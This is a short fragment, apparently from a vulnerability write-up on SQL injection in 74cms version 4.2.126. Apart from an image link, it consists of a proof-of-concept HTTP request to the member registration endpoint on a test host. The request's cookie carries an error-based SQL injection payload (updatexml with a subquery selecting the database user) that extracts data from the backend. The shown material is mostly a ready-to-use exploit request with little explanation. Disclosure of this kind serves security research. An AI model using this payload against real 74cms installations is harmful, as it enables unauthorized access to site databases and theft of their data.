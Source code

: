 ![](resource/74cmsv4.2.126-前台四处sql注入/media/rId57.png)

    url: 
    http://74cms.test/index.php?m=&c=Members&a=register
    post: 
    reg_type=2&utype=2&ucenter=bind&unbind_mobile=1

    cookie:
    members_uc_info[reg_type]=1;members_uc_info[utype]=2;members_uc_info[mobile][0]=match;members_uc_info[mobile][1][0]=aaaaaaa%22) and updatexml(1,concat(0x7e,(select user())),0) -- a;
